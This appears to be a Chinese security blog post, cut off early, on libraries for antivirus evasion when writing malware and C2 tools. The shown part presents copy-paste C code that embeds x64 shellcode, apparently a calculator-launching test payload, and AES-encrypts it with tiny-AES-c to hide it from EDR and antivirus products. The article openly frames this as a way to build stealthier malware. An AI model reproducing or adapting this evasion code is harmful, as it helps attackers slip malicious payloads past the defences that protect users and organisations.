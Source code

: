 #  免杀必会- 规避杀软的库

原创 Gamma最强突破手  [ Gamma实验室 ](javascript:void\(0\);)

**Gamma实验室** ![]()

微信号 HackerLearning

功能介绍
Gamma实验室是专注于网络安全攻防研究的实验室，不定时向外输出技术文章以及自主研发安全工具，技术输出不限于：渗透，内网，红队，免杀，病毒分析，逆向，ctfwp等,实验室只用于技术研究，一切违法犯罪与实验室无关！

____

___发表于_

收录于合集

![](https://gitee.com/fuli009/images/raw/master/public/20220923135700.png)

点击上方“蓝字”，关注更多精彩

  

![](https://gitee.com/fuli009/images/raw/master/public/20220923135701.png)

## 前言

在编写恶意软件时，我们时常会用到系统的一些库，库的使用是非常简单，好用的，只需要导入头文件，那么就可以使用相应的api或函数，但是如果用于免杀或者c2，但是在EDR和终端软件横行的现在，不太“好”，下面将是我们在做免杀时或自己开发c2时常用的一些库，有现成调用代码，复制粘贴即可使用。

## 加密库

做免杀时或自己开发c2时，加密话题是永远离不开的，无论是代码加密，流量加密，或者是内存加密，都是十分重要的，且必须的环节，windows
中也有许多和加密有关的库，但是比较常用的和加密效果比较好的，那么就是AES加密，在windows中实现AES最省事代码量最小的的办法就是使用https://github.com/kokke/tiny-
AES-c 这个库，导入简单，调用APi也十分简单。

要使用这个库，只需将以下头文件和源文件添加到您的项目中。

  * AES.hpp

  * aes.h

  * aes.c

添加好直接使用就行，如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <Windows.h>#include <stdio.h>#include "lib/aes.hpp"  
    int main(){  unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00";  SIZE_T shellcodeSize = sizeof(shellcode);  unsigned char key[] = "Captain.MeeloIsTheSuperSecretKey";  unsigned char iv[] = "\x9d\x02\x35\x3b\xa3\x4b\xec\x26\x13\x88\x58\x51\x11\x47\xa5\x98";  struct AES_ctx ctx;  AES_init_ctx_iv(&ctx, key, iv);  AES_CBC_encrypt_buffer(&ctx, shellcode, shellcodeSize);    #相应的解谜的话，只需使用该AES_CBC_decrypt_buffer()函数。  printf("Encrypted buffer:\n");  for (int i = 0; i < shellcodeSize - 1; i++) {    printf("\\x%02x", shellcode[i]);  }  printf("\n");}